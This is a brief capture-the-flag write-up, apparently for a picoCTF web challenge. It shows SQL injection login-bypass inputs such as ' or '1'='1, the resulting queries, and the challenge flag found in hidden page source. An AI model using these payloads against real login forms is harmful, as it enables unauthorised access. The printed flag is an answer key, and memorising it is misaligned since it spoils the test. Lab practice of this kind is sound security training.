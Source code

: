 # Web

# Flag: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}

Can you login to this website? Try to login here.

http://saturn.picoctf.net:62760/

Login page

Try username as `' OR 1=1`

Error:
username: ' or 1=1
password: fdssfd
SQL query: SELECT * FROM users WHERE name='' or 1=1' AND password='fdssfd'

Try login and password as `' or '1'='1`

```
username: ' or '1'='1
password: ' or '1'='1
SQL query: SELECT * FROM users WHERE name='' or '1'='1' AND password='' or '1'='1'

Logged in! But can you see the flag, it is in plainsight.
```

View source:
```
<pre>username: &#039; or &#039;1&#039;=&#039;1
password: &#039; or &#039;1&#039;=&#039;1
SQL query: SELECT * FROM users WHERE name=&#039;&#039; or &#039;1&#039;=&#039;1&#039; AND password=&#039;&#039; or &#039;1&#039;=&#039;1&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
```